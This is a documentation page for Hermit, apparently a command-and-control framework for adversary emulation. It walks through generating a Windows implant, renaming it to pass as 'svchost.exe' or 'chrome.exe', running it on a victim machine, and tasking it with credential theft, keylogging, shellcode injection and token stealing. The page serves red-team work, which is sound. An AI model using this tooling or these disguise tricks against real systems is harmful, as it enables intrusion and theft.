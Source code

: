 # Simple Implant Beacon

This page introduces the basic usage of execute the implant beacon on Windows victim machine.  

Assume that you've already installed Hermit.  
If not yet, see [the Installation page](../installation.md) and try [Getting Started](../getting-started.md).

## 1. Start C2 Server

Go to the Hermit project directory then run `./hermit` command.

![hermit server start](../assets/images/terminal/hermit_server_start.png)

## 2. Start HTTPS Listener

![listener start](../assets/images/terminal/listener_start.png)

## 3. Generate Implant Payload

![payload gen](../assets/images/terminal/payload_gen.png)

The implant is saved under `$HOME/.hermit/server/listeners/listener-<name>/payloads/` folder.  

### Transfer the Implant

Transfer the implant (`.exe`) to the Windows target computer.  
At that time, it's recommended to rename the filename because the word "implant" in the file name is too dignified.  
For example, rename it with "chrome.exe", "svchost.exe", etc.

## 4. Execute Implant

On the victim machine, execute the implant as below:  

```ps title="Windows Victim Machine"
# Replace the filename with your own.
.\implant.exe
```

## 5. Switch to Agent Mode

After a few seconds, the agent checked in and listed on the C2 server.  
You can check the agent listed with the `agents` command.

![agent list](../assets/images/terminal/agent_list.png)

Now switch to Agent Mode by specifying the agent ID (e.g. `1`):

![agent use](../assets/images/terminal/agent_use.png)

## 6. Send Task & Get the Result

In Agent Mode, you can send tasks and get results.  
To see what tasks are available, run `?` or `help` command.  
Currently, the following tasks are available:

```txt
TASK
====

  cat          <FILE>       : Print the contents of a file
  cd           <DIR>        : Change the working directory
  connect      <URL>        : Change listener URL to connect
  cp           <SRC> <DEST> : Copy a file
  creds steal               : Steal credentials from various resources on the target computer
  dll          <PID> <FILE> : Load DLL and inject modules into the specified process
  download     <SRC> <DEST> : Download a file from the target computer
  env                       : Print environment variables
  execute      <CMD>        : Execute a system command on target computer
  groups                    : Print all local groups
  history                   : Retrieve information from history files of applications
  ip                        : Get the network interface information on target computer
  jitter       <NUM>        : Set jitter time (seconds) between requests from beacon
  keylog       <NUM>        : Keylogging for N seconds
  kill                      : Terminate the implant process
  ls           <DIR>        : List files in a directory
  migrate      <PID>        : Migrate the implant into another process
  mkdir        <DIR>        : Create a new directory
  mv           <SRC> <DEST> : Move a file to a destination location
  net                       : Get TCP connections
  procdump     <PID>        : Dump process memory to a specified output file
  ps                        : List processes that are running
  ps kill      <PID>        : Kill a specified process
  pwd                       : Print the current working directory
  reg subkeys               : Enumerate subkeys for the specified open registry key
  reg values                : Enumerate the specified registry values.
  rm           <FILE>       : Remove a file
  rmdir        <DIR>        : Remove a directory
  rportfwd add              : Reverse port forwarding with the specified remote ip/port
  rportfwd ls               : List settings for reverse port forwarding
  rportfwd rm               : Stop and remove listener for reverse port forwarding
  runas        <USER> <CMD> : Execute a program as another user
  screenshot                : Take a screenshot on target computer
  shellcode    <PID> <FILE> : Inject shellcode into the specified process
  sleep        <NUM>        : Set sleep time (seconds) between requests from beacon
  token revert              : Revert back to the original process token
  token steal  <PID>        : Steal token from the specified process and impersonate process
  upload       <SRC> <DEST> : Upload a file to the target computer
  users                     : Print all local users
  whoami                    : Print the current user name
  whoami priv               : Print the current user privileges

  task clear                : Remove all tasks from waitlist
  task list                 : List tasks waiting for the results
  tasks                     : Alias for 'task list'
```

First, let's try sending the `whoami` task to the agent.  
This task retrieves the username on the victim machine.  

![task send](../assets/images/terminal/task_send.png)

To see the tasks waiting for results, run the `tasks` command.  

After few seconds, if the task is successful, you can see the task results with the `loot` command:

![loot](../assets/images/terminal/loot.png)

Please try other tasks as well.

## 7. Quit Agent Mode

After emulations, simply run the `exit` command to quit Agent Mode.  
You should quit and return to the original console.
